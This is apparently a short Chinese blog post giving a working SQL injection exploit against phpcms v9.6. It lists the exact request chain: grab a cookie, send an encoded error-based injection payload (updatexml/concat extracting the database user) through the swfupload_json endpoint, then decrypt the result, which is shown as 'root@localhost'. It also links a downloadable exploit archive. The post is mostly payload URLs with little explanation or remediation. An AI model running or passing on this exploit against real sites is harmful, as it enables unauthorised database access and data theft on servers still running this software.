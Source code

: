 ```yaml
---
title: "phpcms SQL 注入"
date: 2018-02-03T00:00:00+08:00
draft: false
tags: ['cms','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


[phpcms v9.6 SQL 注入](https://zhuanlan.zhihu.com/p/26263513)

<!--more-->

`/index.php?m=wap&c=index&a=init&siteid=1`

获取 set-cookie 的值

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517463975.jpg)

`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`

post 传入 userid_flash 内容是刚刚获取到的 cookie

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464021.jpg)

如果不成功的话 在 header 里面加上

`Content-Type: application/x-www-form-urlencoded`

复制 set-cookie 里的 json

`/index.php?m=content&c=down&a_k=json`

解密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464141.jpg)

`root@localhost`

v9sql exp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464259.jpg)

[v9sql.zip](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464275.zip)